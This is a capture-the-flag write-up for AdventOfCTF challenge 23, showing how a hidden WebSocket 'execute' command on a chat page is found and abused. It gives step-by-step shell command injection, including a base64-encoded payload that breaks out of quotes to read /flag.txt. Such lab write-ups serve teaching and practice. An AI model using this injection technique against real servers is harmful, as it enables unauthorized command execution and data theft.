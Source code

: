 +++
author = "Maik de Kruif"
title = "Challenge 23"
subtitle = "Challenge 23 - AdventOfCTF"
date = 2021-03-16T20:52:38+01:00
description = "A writeup for challenge 23 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/497784f7a3314f8aa5b8464432e30bbe.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "websockets",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2300

## Description

If all you do is talk, there are bound to be secret features. The flag is stored in /flag.txt.

Visit <https://23.adventofctf.com> to start the challenge.

## Recon

When opening the page, we're greeted with, what looks like, a chat screen. If we type a message in the message box and send it, it appears on the screen.

If we take a look at the source, we also find a bit of javascript:

```js
$(function () {
  var socket = io();
  $("form").submit(function () {
    socket.emit("chat message", { message: $("#m").val() });
    $("#m").val("");
    return false;
  });
  socket.on("chat message", function (msg) {
    console.log(msg.command);
    if (msg.command === "code") {
      $("#messages").append($("<li>").html("<pre>" + msg.message + "</pre>"));
    } else {
      $("#messages").append($("<li>").text(msg.message));
    }
    window.scrollTo(0, document.body.scrollHeight);
  });
});
```

## Finding the vulnerability

From the JavaScript code we can see that the chat uses WebSockets. To take a deeper look at it, let's switch over to the network tab in Chrome and click on the request with the type "websocket".

{{< figure src="/img/writeups/adventofctf/2020/23/websocket.png" title="Websocket in Chrome DevTools" >}}

If we click on it, a tab with the messages sent on the websocket will open. We can see some numbers here, these are just heartbeat packets to keep the connection alive. Now, let's send a new message and have a look at what it actually sends/receives.

After sending the message, the following entries are added to the websocket message list.

```js
⬆42["chat message", {message: "Hi"}]
⬇42["chat message", {message: "Hi"}]
```

We can see the message contains two parts; the event name and the message itself. We also only see a message variable, while in the javascript code we also saw it looked for a `"command"`. Let's try to manually add it to the message.

### Manually sending a message

In Chrome (to my knowledge) we can't easily send a message on a websocket. We could use Burp Suit to do it but for this writeup I'll stick with Chrome. To send a message on the websocket, we need the `socket` variable from the javascript code. To get it, go to the `Sources` tab and click on `(index)`. Now click on line number 28 to add a breakpoint there. We choose this place as it will trigger a breakpoint just before a message gets sent and we thus have access to the socket variable.

{{< figure src="/img/writeups/adventofctf/2020/23/breakpoint.png" title="Javascipt breakpoint in Chrome" >}}

Now if we try to send a message, chrome will pause the page. The console will now also have the scope of the piece of code at the breakpoint. This means that if we enter `socket` in the console, will get the socket object back:

```js
> socket
< Socket {receiveBuffer: Array(0), sendBuffer: Array(0), ids: 0, acks: {…}, flags: {…}, …}
```

Let's save this object to the global scope so we can always access it. To do this, let's enter the following code in the console:

```js
window.socket = socket;
```

We can then click the continue button or press `F8` to continue the script. To verify we still have access to the socket, we can try to send a message using the console. I used the following code for this:

```js
socket.emit("chat message", { message: "Hello" });
```

After running this, we also see the message pop up in the chat window.

### Sending a command

Because the code tries to read `msg.command`, let's try adding a command to the message. We can do that using the following code:

```js
socket.emit("chat message", {
  message: "Hello",
  command: "ls",
});
```

As we expect from the code, `"ls"` is printed to the console but nothing else seems to happen. Maybe the command does not exist, let's try the common `help` command.

```js
socket.emit("chat message", { message: "Hello", command: "help" });
```

This time it returns a different message: "Allowed message types are: help, execute and empty".

## Exploit

The `execute` command looks interesting, so let's take a further look at it.

```js
socket.emit("chat message", { message: "Hello", command: "execute" });
```

Upon sending it, the server returns "Invalid BASE64". This probably means it is trying to read base64 encoded data. But from where? Let's try replacing the message with a base64 encoded command.

```bash
> echo -n "ls" | base64 -w 0
bHM=⏎
```

```js
socket.emit("chat message", { message: "bHM=", command: "execute" });
```

This time we got a different result:

```text
ERR: Error: Command failed: /bin/ls 'ls'
ls: ls: No such file or directory
```

This means the backend is trying to list the contents of "ls", let's try again with a `/` as the message:

```bash
> echo -n "/" | base64 -w 0
Lw==⏎
```

```js
socket.emit("chat message", { message: "Lw==", command: "execute" });
```

This returns the following:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

The only thing left is reading the `flag.txt` file. From the ls error we know the backend executes the following: `/bin/ls '[MESSAGE]'`. This means we have to construct a command that works around the quotes around our input. An example for the input would be `/'; cat '/flag.txt` as this makes the command become the following:

```bash
/bin/ls '/'; cat '/flag.txt'
```

Let's try that.

```bash
> echo -n "/'; cat '/flag.txt" | base64 -w 0
Lyc7IGNhdCAnL2ZsYWcudHh0⏎
```

```js
socket.emit("chat message", {
  message: "Lyc7IGNhdCAnL2ZsYWcudHh0",
  command: "execute",
});
```

This will give us the following output:

```text
STDOUT: apps
bin
dev
etc
flag.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
NOVI{i_hacked_websockets_and_1_am_still_s@ne}
```

## Solution

We got the flag! It is `NOVI{i_hacked_websockets_and_1_am_still_s@ne}`.
